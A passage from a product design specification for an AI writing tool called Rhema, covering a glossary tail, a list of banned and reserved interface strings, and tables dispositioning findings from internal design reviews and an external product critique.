| **Presence timer** | The 10-minute auto-proceed countdown shown on a deadlined gate while the user is present in the project and not reading the artifact. |
| **Proposal card** | The MVP mechanism for every agent-proposed change to a human-editable document: a card beside the Page whose Accept applies one transaction. |
| **Protocol** | A genre as a versioned configuration object (rubric, venue bar, phase defaults, calibration language, norms). |
| **Quick / Standard / Full board** | The rigor notches. |
| **Rhema Markdown profile** | CommonMark/GFM plus footnotes, math, `[@key]` citations, figure blocks, stable block ids. |
| **Round** | One Review + Revise pair on the timeline. |
| **Run** | One workflow execution with a state, phases, gates, events, artifacts, and a cost metered at the proxy. |
| **Run sheet** | The single launcher, consent gate and paywall for every run; two tiers — Rigor, estimate, button; one collapsed row for everything else. |
| **Sidecar** | The machine-readable twin (`*.json`) of a markdown deliverable, emitted by the ported skill and validated at commit; the source of every row. |
| **Showcase project** | The seeded worked example every workspace holds. |
| **Staleness pill** | The eight-state computed status of a voice profile. |
| **Suggestion mark** | A ProseMirror mark carrying a proposed change for accept/reject (1.x, with Line edit); at MVP the proposal card is the mechanism. |
| **Timeline** | The round log rendered as the runs list. |
| **Triage mode** | The Findings list as a queue: grouped by section, sorted by severity, one finding at a time in the Margin, with a progress pill. |
| **Unfiled** | A project with no voice. |
| **Update voice** | The one user-facing verb for refreshing a voice profile; picks the cheapest sufficient scope. |
| **Voice** | A persona: a human seed plus a derived, dated profile built from samples. |
| **Working copy** | A live document forked from a frozen version while a run reads it; reconciled as suggestions afterwards (1.x; at MVP the Page is read-only during runs). |
| **Working head** | The single editable draft in a project (`vN · draft`). |

### D.2 Banned and reserved strings (the REQ-PROD-6 / REQ-BILL-18 lint, in one place)

| Class | Strings | Rule |
|---|---|---|
| Plan names (reserved) | Free · Writer · Studio · Studio Max · Team | only as plan names |
| Model tiers (reserved) | Base · Balanced · Frontier | only as model tiers; model names (Sonnet, Opus, Fable, Haiku) only under Advanced and in the run report |
| Rigor notches (reserved) | Quick · Standard · Full board | only as rigor notches |
| Seats (reserved) | Drafter · Editor · Assistant · Persona builder · Rhema | only as seats; "You" for the human |
| Approvals (reserved) | Approve plan · Confirm scope · Approve triage · Approve outline · Approve sample · Approve cut list · Choose a thesis · Continue? | only as gate names |
| Autonomy (reserved) | Named approvals · Wait for me at each · Run to completion · Ask each round · Ask at every Approval · Run all rounds | only as policy/autonomy values |
| Views (reserved) | Write · Read · Focus · Source | only as View-menu values |
| Banned in any user-facing string | "gate", "checkpoint", "Pro", "Advanced" (except as the disclosure label), "author"/"authored" for an agent, "overage", "on-demand", "ACU", "tokens" (outside Advanced), "unlimited", "you will be billed", "Claude Code", "writes like you", "--" (flag syntax), "browser" for the Files pane, "wrong" in a calibration verdict |
| Reserved product nouns | Project · Draft vN · Round · Timeline · Findings · Dispositions · Obligation · Voice · Unfiled · Showcase project · Credit · Cap · Top-up · Plan · Files · Desk | as defined in §4.3; "backlog" is banned in user-facing strings (v0.3 — the object is the Obligation) |
| Run-level delivery label (reserved; added 2026-09-30, REQ-SPEC-31) | *Unverified* | only as the label of a Review delivered with zero verification coverage — never as a claim verdict (the claim verdict `unverifiable` is frozen and distinct) |

---

## Appendix E — Review dispositions

One line per finding from the three fresh-context reviews (`docs/design/11`, `12`, `13`): 133 rows — 128 fixed, 2 kept with rationale (11 #44, 12 #16), 1 deferred (11 #46), 2 no-action (11 #39, #42); by severity 12 blocker · 65 major · 53 minor · 3 unlabelled section-level items (13 §9–§11). Disposition: **fixed §x** (adopted; where it landed) · **kept §x** (kept as designed, with the rationale's location) · **deferred** (acknowledged; scheduled or left open in §16.3). Severity is the reviewer's.

### E.1 Review 11 — consistency and coverage (4 blocker · 22 major · 23 minor — the review's totals line says 4/19/22 = 45; its 49 per-finding labels, used here, give 4/22/23)

| # | Sev | Finding (abridged) | Disposition |
|---|---|---|---|
| 1 | blocker | Cost column labelled by rigor, computed by model tier | fixed §6.1, §6.2, §15.2 — relabelled "Standard rigor (Base / Balanced / Frontier)"; rigor multipliers added |
| 2 | blocker | REQ-SPEC-1 contradicts triage opt-in, run-to-completion, trial pre-approval, override type | fixed §6.4 (REQ-SPEC-1 rewritten), §11.3 (`Decision.by`, `approvalOverrides`) |
| 3 | blocker | MVP plan card depends on a v1 workflow; `research_burst` undocumented; `/deep-research` undefined | fixed §6.2 (Research row, REQ-SPEC-15), §3.2 row 7a, §7.1, §7.2, §16.3 #7 |
| 4 | blocker | Visibility table does not enumerate v1 workflow artifacts; "46" does not reconcile | fixed §8.2 (Workflow additions block; 62 kinds — 63 from v0.3 final's pre-registered `preference_profile`), §11.3 (closed enum, REQ-SPEC-14) |
| 5 | major | Seat vocabulary: three, five or six | fixed §6.6 (REQ-SPEC-21), §11.3 `AgentTypeKey`, §14.5 |
| 6 | major | Run-report URL has three shapes | fixed §4.2 (`/p/:project/r/:run[/g/:gate]` everywhere), §14.5 |
| 7 | major | Attention groups differ web vs mobile | fixed §10.3 |
| 8 | major | Mobile approval screen assumes three kinds | fixed §10.3 (REQ-MOBILE-12 amended) |
| 9 | major | Free daily allowance vs mobile "beyond the daily allowance" | fixed §10.1, §10.3 (REQ-MOBILE-13 amended) |
| 10 | major | Research section is I but in the default Browser tree | fixed §8.2 #20 (SR as a list), REQ-VIS-3 amended, §5.13 |
| 11 | major | Phasing vocabulary v1 / v1.x / v1.1 / 1.x | fixed §3.1 definitions, §3.2 columns, §6.2, §17 (1.1 named; the rest 1.x; "v1" only for drafts) |
| 12 | major | What creates the `runs` row | fixed §5.6 (REQ-SPEC-16), §12.4 |
| 13 | major | Six-value vs seven-value verdict | fixed §5.7, §8.2, §8.4, Appendix D — `ClaimVerdict` everywhere |
| 14 | major | Review phase count seven or eight | fixed §6.2 (reconciliation is the letter phase's first sub-step) |
| 15 | major | Draft phase list lacks "plan" | fixed §6.2 (Planning the structure), §6.4 |
| 16 | major | Model names in the composer | fixed §7.1 (notch only; REQ-CHAT-14 amended) |
| 17 | major | Two naming schemes for persona runs | fixed §9.2–9.4, §9.6 (`WorkflowKey` values only) |
| 18 | major | Per-claim constant 24 vs 11 | fixed §14.5, §15.2 (`cost_per_verified_claim.review` vs `.fact_check`) |
| 19 | minor | "Run to end" | fixed §5.6 ("Run to completion") |
| 20 | minor | "checkpoint" as a UI value | fixed §6.4, §6.8 ("Ask each round"), §12.4 copy |
| 21 | minor | `cut` missing from the rail origin list | fixed §5.8 |
| 22 | minor | Finding field names differ §5.7 vs §11.3 | fixed §5.7 (`FindingView` aligned to §11.3) |
| 23 | minor | Walkthrough v1.x but MVP depends on it | fixed §3.2 row 20, §5.5 (walkthrough is MVP) |
| 24 | minor | Glossary "Approval" omits spend/refusal kinds | fixed Appendix D |
| 25 | minor | "Wait for me" missing from card actions | fixed §6.4 item 1 |
| 26 | minor | Piece brief SR in §5.13, I in §8.2 | fixed §5.13 |
| 27 | minor | Chat default tier vs account default | fixed §7.1 (Base regardless, with the reason) |
| 28 | minor | epub not in the matrix | fixed §3.2 row 48 |
| 29 | minor | Op-ed default workflow not in MVP | fixed §6.7 (Fact-check default at MVP; Map the field from 1.x) |
| 30 | minor | Trial "what it covers" arithmetic | fixed §14.2–14.3 (superseded by the entitlement) |
| 31 | major | Q-9 export list silently deferred | fixed §13.4 (rtf in MVP), §16.1 D7 (Google Docs) |
| 32 | major | Medium deferred without argument | fixed §16.1 D8 |
| 33 | major | Genre breadth narrowed without a §16.1 entry | fixed §16.1 D9, §2.1 |
| 34 | major | Knowledge bases never addressed | fixed §6.6, §3.2 row 70 |
| 35 | minor | "Re-organize" has no affordance | fixed §5.2, §3.2 row 76, §16.1 D11 |
| 36 | minor | Q-3 accounts not turned into setup work | fixed §17 (Phase 0a) |
| 37 | minor | Substack borrowings not listed | fixed §5.9 |
| 38 | minor | Q-8 auto-insert → proposal not argued | fixed §7.5 (Rejected line), §16.1 D10 |
| 39 | minor | D1–D6 confirmed traceable | no action |
| 40 | major | Twelve dangling Appendix A rows | fixed — IDs inserted in §6.4 (DATA-35/36, GATE-10, IDE-16), §6.5 (IDE-18), §7.5 (VIZ-1/2), §9.5 (INGEST-4), §4.3 (SPEC-2), §6.3 (SPEC-3), §5.7 (SPEC-4); rows re-pointed (IDE-32 → 5.4, GATE-10 → 6.4); SPEC-5 superseded by ARCH-5 |
| 41 | major | Four AC labels undefined; no AC column | fixed §9.3 (AC-P-A), §9.4 (AC-P-C), §9.5 (AC-I-A, AC-I-B); Appendix A AC column added |
| 42 | minor | Spot-check clean | no action |
| 43 | minor | `QualityTier` vs `ModelTier` | fixed §11.3, §14.5 |
| 44 | major | Five contracts adopted by reference; §0.1 claims self-containment | kept §0.1 (R18) — the five sections are named as normative; restating ≈9k words of DDL/types deferred to the ticketing session, which generates them from `packages/contracts` |
| 45 | major | Manifests and estimator constants for four of seventeen workflows | fixed §12.2 (manifest stub table + estimator formula per workflow) |
| 46 | minor | REQ → epic mapping absent | deferred — many-to-one epic column left to the ticketing session (the matrix row is the epic id; §17) |
| 47 | minor | Showcase content unspecified | fixed §16.3 #21 (proposal + owner) |
| 48 | minor | `onExpiry` values not mapped in §6.4 | fixed §6.4 table |
| 49 | minor | Banned-string lists scattered | fixed Appendix D.2 |

### E.2 Review 12 — product and UX (4 blocker · 13 major · 15 minor — the review's header says 15/13; its summary table, used here, says 13/15)

| # | Sev | Finding (abridged) | Disposition |
|---|---|---|---|
| 1 | blocker | "Accept" does not apply a suggestion | fixed §5.7 (Apply, REQ-SPEC-6), §10.3, §11.3 |
| 2 | blocker | No deep research at MVP; attachments silent | fixed §6.2 Research row (REQ-SPEC-15), §7.1 attachments, §3.2 rows 7/7a |
| 3 | blocker | No design for 150 findings | fixed §5.7 (REQ-SPEC-7: triage mode, clustering, rationale rules, one-preview bulk, Drafter-first, Quick cap) |
| 4 | major | Confirm scope blocks every Review for up to 2 h | fixed §6.4 (informational by default; blocks at Full board and three cases — R15, REQ-SPEC-17); tension with Q-7 recorded §16.1 D6 |
| 5 | major | Run sheet is a control panel | fixed §5.6 (two-tier sheet; model tier under the fold) |
| 6 | major | Nine three-way toggles | fixed §4.3, §5.1 (View menu; density Summary/Details; stage as protocol default; model tier a consequence of rigor) |
| 7 | major | Findings stay on vN after fork | fixed §5.4, §6.3 (projected onto v(N+1) by default) |
| 8 | blocker | Trial cannot honour "first review included" | fixed §14.3 (entitlement, REQ-SPEC-8; R4 amended, R16), §5.6, §14.2, §15.4 |
| 9 | major | Deadlines: invisible auto-proceed; clock when present; prefill | fixed §5.11 (email on), §6.4 (presence timer, universal prefill — REQ-SPEC-18) |
| 10 | minor | Revise gated on opening the letter | fixed §6.3 |
| 11 | major | `--flags` grammar for writers | fixed §7.2, §5.12, §3.2 row 65 (structured row; chips; parser underneath) |
| 12 | minor | Estimate blocks the button; queue ETA | fixed §5.6 item 1, §5.5 |
| 13 | major | Paper defaults dark | fixed §5.9 (pinned light by default — R17), §11.3, §16.1 D12 |
| 14 | minor | Pane widths overflow at 1440 | fixed §5.1 (yield order) |
| 15 | minor | Margin with the letter; rubric bars as a score | fixed §5.7 (Margin shows referenced cards; five-dot scales) |
| 16 | minor | "Browser", "Desk" naming | kept §0.3 R13 — internal pane names unchanged; the user-facing label is **Files**, Desk tabs are content-named |
| 17 | minor | Single-letter hotkeys on a text editor; `⌘⇧A` | fixed §5.7, §5.12 (scoped to Margin focus; `⌘⇧V` for Revise) |
| 18 | major | Five refresh verbs for one intent | fixed §9.3 (one *Update voice* verb — REQ-SPEC-27) |
| 19 | minor | "Content: wrong" framing | fixed §9.4 |
| 20 | minor | "Untested voice" nags | fixed §9.2, §9.3 |
| 21 | minor | Hold-out jargon | fixed §6.4, §9.4 |
| 22 | major | Mobile is v1.x but MVP flows need a phone | fixed §10.1 (REQ-SPEC-20), §5.1 (REQ-MOBILE-3 amended), §5.11 (signed email actions), §3.2 row 62a; D3 kept |
| 23 | minor | Biometric step-up at 50 credits | fixed §10.3 (500, tied to the consent threshold) |
| 24 | major | One trial project | fixed §14.2–14.3 (three) |
| 25 | minor | Dropped file vs Showcase precedence | fixed §15.3, §2.4 |
| 26 | major | Arithmetic lesson at the paywall | fixed §5.6, §14.1 (dollars-first single line; plan-that-covers-it line) |
| 27 | minor | 25% rule without a floor | fixed §5.6, §14.4 (REQ-BILL-4 amended: 200-credit floor) |
| 28 | major | MVP carries features that do not move activation | fixed §3.2, §17 for variants, Cut to length, Source mode, span provenance, seat pages, section-boundary steering (all 1.x); **kept** Figure and LaTeX (R14 — Q-8 is an operator decision; LaTeX is free), and all four protocols (Q-15), with the Memo note in §16.4 |
| 29 | major | Under-specified: tags, outline editor, attachments, conversion preview | fixed §5.2 (tags 1.x; D11), §7.3 (structured outline editor), §7.1 (attachments), §5.3 (conversion preview) |
| 30 | minor | Three inbox doors; badge rule | fixed §5.11 |
| 31 | minor | Provisional findings and reconciliation conflicts | fixed §5.5 (REQ-IDE-15 amended) |
| 32 | minor | Explain "fetched ✓" once | fixed §5.7 |

### E.3 Review 13 — architecture and feasibility (4 blocker · 30 major · 15 minor — the review's header says 31/14; its per-finding labels, used here, give 30/15)

| # | Sev | Finding (abridged) | Disposition |
|---|---|---|---|
| F1 | blocker | Gate decisions cannot reach the files the next phase reads | fixed §11.5 (REQ-SPEC-9 serializers + overlays; REQ-DATA-5 amended), §6.4 |
| F2 | major | "Exists, parses, non-empty" is not a completion oracle | fixed §12.2 (REQ-RUN-1 amended / REQ-SPEC-13), §11.3 `Step.result` |
| F3 | major | Cross-phase backtracking not expressible | fixed §12.2 (declared back-edges; `replan`; Approve plan re-opened), §6.5 |
| F4 | major | Cap enforced against a stale sum | fixed §12.4 (provisional `sdk_stream` rows; bound stated) and superseded by F12 |
| F5 | major | Stale-attempt fencing covers heartbeats only | fixed §12.4, §11.4 (attempt on every internal call; token rotated; StopTask grace — REQ-RUN-15 amended) |
| F6 | major | Pause inside a writing phase has no resume path | fixed §6.5 (phase-boundary pause at MVP; `resume_from` 1.x — REQ-GATE-12 amended), §16.3 #4 |
| F7 | major | Compaction handled only for the Assistant | fixed §7.1 (`PreCompact` re-read hook for every seat; compaction count and flag) |
| F8 | minor | Prompt caching cold at every phase | fixed §12.2, §16.3 #1 (phase-aware estimator) |
| F9 | minor | Gate expiry race; unbounded pause-while-reading | fixed §6.4 items 1 and 6, §11.4 (conditional updates; bounded extension) |
| F10 | minor | Say MVP fan-out is intra-query | fixed §12.2 |
| F11 | blocker | Trust chip forgeable from inside the sandbox | fixed §12.4 step 4, §12.6, §13.3 (REQ-SPEC-10: two uids, scrubbed env, attestation from hydration manifest + proxy log), §5.7 chip copy |
| F12 | blocker | Proxy injects the key for any request — unmetered inference | fixed §12.7, §13.3, §12.1 (REQ-SPEC-11: per-run credential + allowlist; meter of record; 402 at cap) |
| F13 | major | Input-scoped subagents share the filesystem | fixed §12.6 (private mount namespace, distinct uid, no Bash — REQ-ARCH-19 amended) |
| F14 | major | `chmod 444` is not a guard | fixed §11.5, §12.6 (read-only bind mounts; hash check at harvest) |
| F15 | major | Hold-outs are URLs; server tools filter by domain | fixed §12.6 (builder/calibrator fetch via `fetcher`; J12 as a hard check — REQ-DATA-15 amended) |
| F16 | major | Search queries and fetch URLs are an outbound channel | fixed §12.8 (acknowledged; mitigations (d); residual risk disclosed §14.7 — REQ-SPEC-25) |
| F17 | major | Skill text spawns its own second read; ordering contradiction | fixed §12.2 (fallback order is the manifest order; `Agent` rejected in judge phases; `producerQueryId` delivery check) |
| F18 | minor | `disallowedTools` patterns are cosmetic | fixed §12.2, §12.6 (stated) |
| F19 | minor | Assistant reads pre-triage ledgers | fixed §7.1, §6.6 (frozen ledgers only), §16.2 C12 |
| F20 | blocker | Killer feature built on parsing prose with silent degradation | fixed §11.1 (REQ-SPEC-12 structured-output contract; parse failure = validation failure; growing golden set), §8.2 W15, §16.2 C11 |
| F21 | major | Anchors as Yjs positions on non-Yjs documents | fixed §5.7, §11.3 (`Anchor` = blockId + quote + offsets; relpos only in projections) |
| F22 | major | Byte-stable round-trip is not achievable for imports | fixed §5.4, §11.5 (REQ-DATA-9 amended: schema-first; idempotence; import normalisation shown) |
| F23 | major | Block ids pollute exports and skill reads | fixed §5.4, §11.3 (sidecar id map) |
| F24 | major | Working copy + reconciliation is a three-way merge the MVP does not need | fixed §5.4, §5.10, §6.3, §11.6 (Page read-only during runs at MVP; working copy 1.x — REQ-IDE-44 / REQ-DATA-27 amended) |
| F25 | major | `credit_balances` materialized view is a global lock | fixed §11.4, §11.3 (balances table — REQ-SPEC-24) |
| F26 | major | Skill drift is a fork | fixed §12.2 (REQ-SPEC-22 contract test; `protocols_version` pinning) |
| F27 | minor | Second review of the same version; legacy link | fixed §12.2, §11.3, §11.5 (`prior_review` input), §16.3 #16 closed |
| F28 | minor | "Never persist raw fetched pages" not preserved | fixed §11.4, §16.2 C10 (declared departure needing confirmation) |
| F29 | major | Launch throughput and quotas are the wall | fixed §12.1, §12.4 step 4 (warm pool, subnets, quotas, small image), §16.3 #6 |
| F30 | major | Concurrent holds drive an account negative | fixed §11.4, §12.4 step 2 (row-locked holds) |
| F31 | major | Holds outlive their bucket | fixed §14.4 (REQ-SPEC-24), §12.4 step 7, §6.4 (30-day parked cap) |
| F32 | major | Aurora at 0.5 ACU cannot carry the write load | fixed §13.1, §11.4, §12.5 (≥ 4 ACU; heartbeats in Redis; daily partitions; bigger batches) |
| F33 | minor | Forgotten run blocks a project forever | fixed §5.10, §6.3 (Cancel run to edit on the Page), §12.4 (30-day cap) |
| F34 | minor | Idempotency keys for non-sheet paths | fixed §5.6 (REQ-SPEC-16: client-minted key at sheet open; 24 h server map) |
| F35 | major | Four bounded and one unbounded way to lose money | fixed §12.7 (F12), §14.3 (daily trial ceiling), §14.4 (circuit breaker; stop-and-resume noted), §13.5 SLO |
| F36 | major | Cap constraint could abort the delivery transaction | fixed §14.4 (REQ-BILL-3 amended), §11.5 (REQ-DATA-7 amended: ledger separate from delivery) |
| F37 | major | Frozen rate table + parked runs + price increases | fixed §12.4 step 7, §14.4, §14.6 (re-price at resume; spend gate for the delta) |
| F38 | minor | Refund + resume yields a full dossier for 40% | fixed §14.4 (REQ-SPEC-24 item 6) |
| F39 | minor | Chargeback leaves running runs undefined | fixed §14.4, §14.6 |
| F40 | major | Injection controls overstate what server tools do | fixed §12.8 (controls restated; verdict source checks; `fetcher` at Full board), §11.3 `Claim.sourceCheck` |
| F41 | major | Conversion runs beside credentials and network | fixed §12.1, §13.3 (`fetcher` / `convert` split — REQ-ARCH-4/23 amended) |
| F42 | major | RLS via session variable on a pooled connection | fixed §11.4 (REQ-DATA-4 amended), §16.3 #15 closed |
| F43 | major | Presigned uploads cannot validate content; download origin | fixed §13.3 (separate registrable domain; octet-stream; sniff at conversion — REQ-ARCH-24 amended) |
| F44 | minor | SigV4 makes the proxy simpler | fixed §12.9, §16.3 #5 |
| F45 | minor | No passkeys on an account that approves spends | fixed §13.1, §10.5, §3.2 row 77 (passkeys 1.1) |
| F46 | major | Editor scope is two engineer-years | fixed §5.4 (REQ-SPEC-19), §5.8, §5.10, §13.1, §17 (the cut), §16.4 |
| F47 | minor | Restore points as whole-state blobs | fixed §5.8, §11.3 (deltas from a daily snapshot) |
| F48 | major | Licence allowlist fails on the SDK; public clone cannot build | fixed §13.2 (exception list; path-resolved packages + public stubs — REQ-ARCH-37 amended), §16.3 #22 (beautiful-mermaid unverified) |
| F49 | minor | Third-party SaaS that slipped past M8 | fixed §13.1, §12.1 |
| §9 | — | Guarantee-preservation table | fixed §12.10 |
| §10 | — | 52–67 PM scope estimate; Phase-0 18–23 PM before a pixel | fixed §17 |
| §11 | — | The three riskiest bets | fixed §16.4, §17 |

### E.4 Where reviews conflicted, and the decision

- **Review 12 #28 (defer Figure, LaTeX) vs Q-8** → kept both in MVP (R14).
- **Review 12 #4 (scope non-blocking) vs Q-7 / R3** → informational at Quick/Standard, blocking at Full board and in three cases (R15).
- **Review 12 #8 (entitlement) vs R4 (Full board on trial) and research/6's ≤$4 ceiling** → entitlement at Standard; Full board locked; economics re-based (R16).
- **Review 12 #13 (light paper) vs Q-14 (dark by default)** → dark shell, light paper (R17).
- **Review 11 #44 (restate five contracts) vs review 13's scope warning** → adopted by reference as normative; restatement deferred to ticketing (R18).
- **Review 12 #1 (Apply writes immediately) vs review 13 F24/F46 (no suggestion mode, read-only during runs)** → Apply is a plain transaction on the working head, disabled while a writer-run holds the lock; consistent with both.
- **Review 12 #16 (rename Browser/Desk) vs R13** → internal names kept; user-facing label "Files".
- **Review 11 #23 (ship walkthrough at MVP) vs review 12 #28's cut list** → shipped at MVP (one package-class call; three MVP behaviours depend on it).

### E.5 Delta-review dispositions (design/19; applied v0.3 final, 2026-09-01)

The fresh-context adversarial review of the v0.2 → v0.3 delta (`docs/design/19`: 0 blocker · 6 major · 8 minor), dispositioned finding-by-finding. All 14 fixed; none deferred.

| # | Severity | Finding (one line) | Disposition |
|---|---|---|---|
| F-1 | major | §5.4 still phased the Authorship overlay wholesale as 1.x against row 39 / REQ-POS-8/9 | fixed §5.4 (block-level overlay + span capture at MVP; span *rendering* 1.x) and REQ-SPEC-19 (§5.4 inventory + A.9) |
| F-2 | major | §17 beta-path totals were unreconciled v0.2 numbers | fixed §17 (beta ≈ 29.5–39.5 PM cumulative with components; path ≈ 60–79 vs ≈ 57–74 direct; design/18's Draft-port Phase-0 note restored), §16.3 #24, REQ-BETA-4 |
| F-3 | major | Engineering-table footnote invited a double-count reading of the v0.3 deltas | fixed §17 Total row: deltas are additive line items over unchanged v0.2 rows (54–70 row-sum + 1.5–2.5 + 1.25–2 ≈ 57–74); folded in at the Phase-0 re-estimate |
| F-4 | major | An E.4 bullet was stranded as the file's last line, after Appendix F | fixed — moved into §E.4 above; nothing else trailed it |
| F-5 | major | §8.2 row 1 still routed the manifest's agenda to dropped `backlog_item` rows | fixed §8.2 row 1: `source: 'agenda'` revision-obligation rows (§11.7; REQ-OBJ-7) |
| F-6 | major | The rendered preference profile had no `ArtifactKind`, no §8.2 row, no mount path | fixed — `preference_profile` pre-registered as the 63rd kind (§8.2 R9: SR, reasons UX/IB; §11.3 enum; §11.5 tree + §12.6 mounts with the Editor exclusion; REQ-SPEC-14, REQ-OBJ-7/9/10 updated) |
| F-7 | minor | REQ-EVAL-15's numbers-confirmation obligation was untracked (AC pointed at the budget question) | fixed §16.3 #27 (LIFT-numbers confirmation recorded) + §18.4 pointer; A.11's AC now resolves |
| F-8 | minor | §5.7 obligation chip omitted `mooted` | fixed §5.7: added, with the discharged-pending rendering rule |
| F-9 | minor | Front matter cited REQ-OBJ-17 for a change it doesn't make | fixed front matter: verdict freeze named; gains attributed to 18–19 |
| F-10 | minor | Q-21 conditioning inconsistent across REQ-POS-1/2/3 and §15.2 | fixed A.12 (REQ-POS-2/3 "awaiting Q-21") and §15.2 (Q-21-rec. marker with the revert note) |
| F-11 | minor | The stall query escalated legitimately deferred obligations | fixed §6.8: `state not in ('rebutted','deferred')`; the horizon-arrival return-to-open already specced (§11.7) |
| F-12 | minor | REQ-EVAL-6's "shipped product" was unsatisfiable at wave 1 | fixed §18.2 + A.11: production engine/protocol as they will ship, no eval-only tuning or forks |
| F-13 | minor | The beta's posture on authorship slices S1–S4 was unstated | fixed §17 beta row: S1 rides the beta's export path; S2–S4 post-beta under REQ-BETA-3 (deferred, not cancelled) |
| F-14 | minor | §11.1's immutability principle read as exceptionless | fixed §11.1: the one deliberate v0.3 exception (obligation row state) annotated |

---

## Appendix F — External-critique dispositions (added v0.3)

Every claim of the independent external critique (`docs/4_external-chatgpt-product-business-critique.md`, 2026-08-27 — produced with no knowledge of this spec), dispositioned with the same discipline the product applies to reviews: **accept** (adopted, or already built — the implementing v0.3 section given) · **adapt** (adopted in changed shape, with the shape) · **rebut** (declined, with the argument) · **defer** (acknowledged and scheduled, with when). Rows follow the crosswalk (`docs/design/14`), whose 81 rows and verdicts are reproduced in abridged form; the crosswalk file itself is not edited — **this appendix is the corrected record**, incorporating research/13's verification (F.2).

**Credit where due.** The critique's evidence base held up far better than round 1 assumed: of its 26 cited URLs, **21 VERIFIED · 4 PARTIALLY · 1 UNREACHABLE · 0 MISREPRESENTED · 0 FABRICATED** (research/13 §A1, all fetched or Crossref-confirmed 2026-09-01). Its §1 description of the source repo is accurate against the actual skill definitions; its two "most confabulated-sounding" product names (Gemini Notebook, Deep Research Max) were its two most accurate claims; and its competitive section *understates* the 2026-09 landscape. Its genuinely additive content — the comparative benchmark, revision obligations, the longitudinal author model, the argument graph, and the strategic risk rows — drove round 2; v0.3 adopts the first three, defers the fourth behind evidence, and writes the fifth into §16.4. Its two collapsed claims (the $30–80/mo price floor; the uncited "2026 survey") are rebutted below on fetched evidence. Epistemic rule recorded from this exercise (research/13 implication 9): never publish a fabrication suspicion without a fetch attempt.

### F.1 Dispositions (81 rows)

**§0 Executive conclusion**

| # | Critique claim (abridged) | Crosswalk | v0.3 disposition |
|---|---|---|---|
| 0.1 | Productize as an AI-native environment for serious written reasoning with first-class objects | ALIGNED | **accept** — the spec's shape (§1.1, §11); the formulation now appears verbatim as §1.1's category thesis |
| 0.2 | The analogy is "an agentic development environment for arguments and manuscripts" | PARTIAL | **adapt** — thesis adopted into §1.1 prose (never the headline, REQ-POS-4); the one missing primitive, the argument graph, is deferred to the v2 spike (REQ-OBJ-15) |
| 0.3 | Market real but narrow; wedge = high-stakes long-form nonfiction | ALIGNED | **accept** — §2.1 |
| 0.4 | Value must accumulate in workflow, state, evals, memory, graphs, calibration, provenance, longitudinal data | PARTIAL | **accept** — the two v0.2 gaps are now specced: evaluation program §18, longitudinal asset §11.7 (capture MVP, learn 1.x/2.0); status table §1.6 |
| 0.5 | The crucial test: repeat rounds, material changes, *preferred over chat* | PARTIAL | **accept** — the preference clause is now measured twice: §18's A1/A2 arms (supply) and the beta's export-to-chat instrumentation + interviews (demand, REQ-BETA-10) |

**§1 What the repo contains**

| # | Claim | Crosswalk | Disposition |
|---|---|---|---|
| 1.1 | editorial-review phase structure | ALIGNED | **accept** — preserved phase-for-phase (§6.2) |
| 1.2 | Failure modes as architectural constraints | ALIGNED | **accept** — carried and hardened (§5.7, §12.6, REQ-VIS-9) |
| 1.3 | respond-to-review disposition semantics | ALIGNED | **accept** — §5.7/§6.2; v0.3 extends them with durable obligations (§11.7) |
| 1.4 | Persona machinery: register vs person | ALIGNED | **accept** — §9 |
| 1.5 | "Product primitives, not prompt tricks" | ALIGNED | **accept** — the spec's premise (§12.2, §12.10) |

**§2 The collapsing market layers**

| # | Claim | Crosswalk | Disposition |
|---|---|---|---|
| 2.1 | Frontier platforms absorb research-then-write; the central strategic threat | PARTIAL | **accept** — now a §16.4 risk row, *evidence-backed* (research/13 §A2 verified ChatGPT Work, Gemini Notebook 30M+ users, Deep Research Max — the critique understated); answered by §1.6 + §18's quarterly measurement |
| 2.2 | Grammarly/Superhuman the most dangerous direct competitor | PARTIAL | **adapt** — named quarterly parity watch in §16.4; verified deltas recorded (Citation Finder ships *supporting* sources only; Grammarly ships Authorship tracking — which strengthens Q-24, not the critique's framing that provenance differentiates). Two "Docs" products were fused in the critique (PARTIALLY, research/13 #17) — the strategic point survives |
| 2.3 | Academic tooling crowded → avoid academia as first wedge | DIVERGES | **adapt** — crowding is engaged at last: it is a *headline* problem, not a *shipping* problem. Essay-led GTM recommended (Q-21, §2.1); Academic ships complete per Q-15 and the fetched willingness-to-pay evidence, but never headlines. The critique's load-bearing "2026 survey" remains unattributable (F.2 #3), though the crowded-category premise is independently real |
| 2.4 | Don't differentiate on deep research | ALIGNED | **accept** — research phases are commodity plumbing (§12.3) |

**§3 Architecture vs "multi-agent writing"**

| # | Claim | Crosswalk | Disposition |
|---|---|---|---|
| 3.1 | The moat cannot be "we run five agents"; debate gains are largely voting artifacts | ALIGNED | **accept, upgraded to evidence** — "Debate or Vote" is a real NeurIPS 2025 Spotlight (crosswalk's fabrication suspicion retracted, F.2 #2); the verified literature undermines councils *and* supports the spec's independent-draw design — independence + aggregation is the mechanism class that works, and hivemind correlation is the failure the kernel boundary prevents (research/13 §A4). Caveat kept: the literature supports the mechanism class, not our instance — §18 measures the instance (REQ-EVAL-13) |
| 3.2 | LLM-judge position bias, leniency, prompt sensitivity | ALIGNED | **accept** — structurally countered in-product (§5.7, §6.7); in the benchmark, C-a…C-g are binding (REQ-EVAL-9) |
| 3.3 | Surface and evaluate the disciplined mechanisms as product behavior | ALIGNED | **accept** — trust chips, fetched-✓, dispositions (§12.6, §5.7); *comparative* evaluation now exists (§18) |

**§4 The wedge**

| # | Claim | Crosswalk | Disposition |
|---|---|---|---|
| 4.1 | Initial customer already possesses an argument | ALIGNED | **accept** — §2.1 |
| 4.2 | Segment list (Substack writers, journalists, policy analysts, essayists, founders, analysts…) | PARTIAL | **adapt** — overlap was already near-total; v0.3 reorders Essay first (REQ-POS-2). Deltas stand with reasons: Academic ships (Q-15; see 2.3), Journalism defers (needs a source-and-quote ledger; 1.x) |
| 4.3 | The JTBD: "tell me what is wrong, prove it, repair without destroying my voice, check again" | ALIGNED | **accept** — §2.2 #1–3 |

**§5 Cultural risk: authorship**

| # | Claim | Crosswalk | Disposition |
|---|---|---|---|
| 5.1 | Position as editorial augmentation; visible mass generation risks "AI slop" association | PARTIAL | **accept** — the one PARTIAL v0.2 could not argue away. v0.3 records the tension and resolves it: Draft demoted in every narrative surface, never in product (REQ-POS-5); augmentation-not-substitution written into §1.1; slop/reputation risk rows in §16.4 |
| 5.2 | Keep authorship legible: passages, claims, edits, decisions | PARTIAL | **accept** — the culturally load-bearing slice moves to MVP (row 39: AI-use statement, block-level appendix + overlay, span capture; REQ-POS-6…9); span *rendering* stays 1.x on unchanged F46 cost grounds. Verified context sharpened the priority: Substack's reader-facing scan + Grammarly Authorship (research/13 §A3) |
